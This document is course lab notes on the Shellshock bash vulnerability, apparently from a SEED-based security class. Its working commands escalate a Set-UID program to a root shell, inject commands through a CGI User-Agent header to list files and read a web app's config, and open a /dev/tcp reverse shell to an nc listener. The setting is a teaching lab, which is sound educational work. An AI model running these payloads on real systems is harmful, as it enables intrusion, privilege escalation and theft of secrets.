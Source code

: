 # Shellshock Attack

Some snippets below:

## Shell Functions

```bash
foo() { echo "Inside function"; }
declare -f foo # show the function def
foo
unset -f foo
declare -f foo # show the function def
```

```bash
foo() { echo "hello world"; }
declare -f foo # show the function def
foo
export -f foo
bash
foo
```

```bash
foo='() { echo "hello world"; }'
echo $foo
declare -f foo # show the function def
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## The Shellshock Vuln.

```bash
foo='() { echo "hello world"; }; echo "extra";'
echo $foo
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## Shellshock Attack on Set-UID Programs

```bash
sudo ln -sf /bin/bash_shellshock /bin/sh # link sh to the vuln. version of bash
cat vul.c
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo "hello world"; }; echo /bin/sh'
./vul # get the root shell! 
sudo ln -sf /bin/dash /bin/sh # reset sh
```

## Shellshock Attacks on CGI Programs

### Setup

Put this script (`test.cgi`) in `/usr/bin/cgi-bin/`

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo 
echo "Hello World"
```

##### Pro Tip

Fetching code from the course repo...

```bash
# Use wget to get a file from our course repo & save to the default folder for the Apache webserver
sudo wget -O /usr/lib/cgi-bin/myenv.cgi https://raw.githubusercontent.com/traviswpeters/csci476-code/master/03_shellshock/env.cgi
sudo chmod 755 /usr/lib/cgi-bin/myenv.cgi
ls -al /usr/lib/cgi-bin/ # verify permissions
cat /usr/lib/cgi-bin/myenv.cgi # verify file content
```

### Using `curl`

Use `curl` to interact with the CGI script

```bash
curl http://10.0.2.69/cgi-bin/test.cgi
```

### User Data in CGI Scripts

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo "*** Environment Variables ***"
strings /proc/$$/environ
```

```bash
curl -v http://10.0.2.69/cgi-bin/test.cgi
```

Use `curl -A ...` to change the user-agent field.

```bash
curl -A "test" -v http://10.0.2.69/cgi-bin/test.cgi
```

### Launching the attack

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; /bin/ls -l"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         /bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php"
         http://10.0.2.69/cgi-bin/test.cgi
```

### Reverse Shell

```bash
nc -lv 9090
ifconfig
```

```bash
/bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         echo; 
         /bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
nc -lv 9090
id
```

##### From class:

Follow instructions in Appendices in the SEED setup manual (lab00) to see how to clone your existing SEED VM and properly configure the NAT Network.

Step 1: 
```bash
# start netcat server on "attacker" machine
seed@VM(10.0.2.15):~$ nc -lv 9090
Listening on [0.0.0.0] (family 0, port 9090)
```

Step 2: 
```bash
# experiment with ideal payload on "victim" machine (i.e., a remote server)
seed@VM(10.0.2.7):~$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1
```

At this point, you have a reverse shell setup! 
You can now specify commands from the "attacker" VM, 
which are sent over the network connection and run on the victim's machine; 
the results are also sent back over the network connection to the "attacker" VM. 
In this way, you have shell access to the victim VM! 

The question then is: how do you get the victim to execute your payload?!

**NOTE:** The IP addresses are specific to my configuration. 
You should use `ifconfig` to verify the IP addresses on your VMs. 
